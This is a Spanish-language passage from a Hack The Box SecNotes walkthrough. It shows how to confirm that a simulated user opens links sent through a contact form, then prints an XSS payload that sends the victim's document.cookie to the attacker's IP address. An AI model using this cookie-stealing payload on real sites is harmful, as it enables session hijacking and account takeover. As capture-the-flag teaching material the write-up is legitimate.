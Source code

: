 En vista de que recibimos nuestra propia cookie de sesión directamente en nuestro equipo, sería solo cuestión de tiempo para hacernos con las cookies de otros usuarios, si los existiera, claro está.

Por obvias razones no existen más clientes que interactuen con el servidor web, a excepción de uno. Si recordamos, el mensaje inicial que aparecía en la página, mencionaba que nos pongamos en contacto con `tyler` a través del botón _Contact Us_; así que lo primero que haremos sera  comprobar si este lee nuestros mensajes, para ello le enviaremos un url que apunte a nuestra máquina.

Es importante mencionar que no podemos ocultar nuestro url con _href_, _acortadores_, _iframe_ o algún otro método, ya que al ser un usuario simulado, este no lo gestiona muy bien. Por su parte, un usuario real, a no ser a que tenga nulos conocimientos de seguridad informática, abriría un enlace que le envía un total desconocido.

Sin cerrar nuestro servidor hosteado con `Python`, a través del botón _Contact Us_, enviaremos el siguiente mensaje para confirmar si `tyler` lee nuestros mensajes:

```html
http://nuestraDirecciónIP:80/tylerEstáPresente
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2022-02-28-SecNotes-Hack-The-Box/17.png){:class="blog-image" onclick="expandImage(this)"} 

Vemos que conseguimos una petición por GET por parte de la máquina víctima, por lo que asumimos que este lee nuestros mensajes. Ya con esto podemos pensar que tenemos una posible vía potencial para hacernos con la cookie del usuario. Por lo cual, enviaremos el siguiente mensaje:

```html
<script>document.write('<img src="http://nuestraDirecciónIP:80/cookie=' + document.cookie + '">')</script>
```
